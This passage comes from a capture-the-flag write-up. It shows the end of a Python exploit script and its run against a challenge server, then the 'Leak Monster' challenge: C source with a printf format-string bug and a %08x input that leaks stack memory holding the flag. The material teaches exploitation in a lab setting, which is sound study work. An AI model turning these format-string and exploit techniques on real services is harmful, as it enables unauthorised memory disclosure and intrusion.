 ```python

p.sendline(payload)

p.interactive()

```

```bash
$ python3 exp.py
[+] Opening connection to 206.189.123.169 on port 5001: Done
[*] There is a secret at: 0x5662620d
[*] Win address = 1449288205
[*] Switching to interactive mode
What is your name: 
bbV
ltdh21{Y0u_JuST_Pwn3d_Th1s_BaD_Bo1s}

```

***


### Leak Monster

* Description: Can someone call a plumber?
* Solves: 10

For this challenge we are provided main.c and a nc session.

main.c:

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    char text[1024];
    char flag[] = "AAAA";
    printf("Whats your Name Mr plumber: ");
    fgets(text, 1024 , stdin);
    printf("Hello  there ");
    printf(text);
    printf("\n");
    return(0);
}

```

The source code is a textbook example of how not to use the printf() function. We can exploit this using %x string formatting.

The following input leaks the stack.

```bash
$ nc 206.189.123.169 5000       
Whats your Name Mr plumber: AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
Hello  there AAAA00000400.f7ee1580.5662424b.f7cff4d4.f7ee97c0.f7ee9110.ffd61754.00000009.00000001.f7d0268c.64746cd8.7b313268.336d3053.5f336e6f.4c6c4163.505f415f.424d756c.007d7233.41414141.78383025.

```
